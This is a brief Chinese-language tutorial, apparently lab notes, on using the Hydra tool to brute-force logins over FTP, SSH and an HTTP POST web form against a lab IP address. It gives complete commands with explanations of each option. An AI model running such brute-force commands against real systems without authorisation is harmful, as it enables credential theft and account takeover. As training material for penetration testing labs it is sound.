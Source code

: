 # Hydra



传递给 Hydra 的选项取决于我们正在攻击的服务（协议）。例如，如果我们想使用用户名 user 和密码列表 passlist.txt 来暴力破解 FTP，我们将使用以下命令：

```
hydra -l user -P passlist.txt ftp://10.10.218.216
```



## ssh

```
hydra -l <username> -P <full path to pass> 10.10.218.216 -t 4 ssh
```



```
hydra -l root -P passwords.txt 10.10.218.216 -t 4 ssh

Hydra 将使用 root 作为 ssh 的用户名
它将尝试 passwords.txt 文件中的密码
将有四个线程并行运行，如 -t 4 所示
```



## webform

也可以使用 Hydra 来暴力破解 Web 表单。您必须知道它正在发出哪种类型的请求；通常使用 GET 或 POST 方法。您可以使用浏览器的网络选项卡（在开发人员工具中）查看请求类型或查看源代码。

```
sudo hydra <username> <wordlist> 10.10.218.216 http-post-form "<path>:<login_credentials>:<invalid_response>"
```



```
hydra -l <username> -P <wordlist> 10.10.218.216 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

登录页面只有 / ，即主 IP 地址。
username 是输入用户名的表单字段
指定的用户名将替换 ^USER^
password 是输入密码的表单字段
提供的密码将替换 ^PASS^
最后， F=incorrect 是登录失败时出现在服务器回复中的字符串

```

